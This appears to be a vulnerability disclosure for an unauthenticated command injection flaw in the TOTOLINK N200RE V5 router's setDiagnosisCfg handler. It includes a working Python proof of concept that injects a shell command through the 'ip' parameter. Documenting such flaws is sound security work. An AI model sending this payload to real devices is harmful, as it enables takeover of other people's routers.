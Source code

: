 # TOTOLINK N200RE V5(V9.3.5u.6139_B20201216) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

## Affected Version
V9.3.5u.6139_B20201216
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setDiagnosisCfg` handler function of  `cstecgi.cgi`. The value of the `ip` parameter will be spliced ​​into the `ping %s -w ...` and be excuted by `doSystem` function, which allows an attacker to excute any command. **The vulnerability do not need authentication.**


![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "topicurl": "setDiagnosisCfg",
    "num": "123",
    "ip": ";ps;#"
}"""

requests.request("POST", url, data=payload)
```
![postman](postman.png)
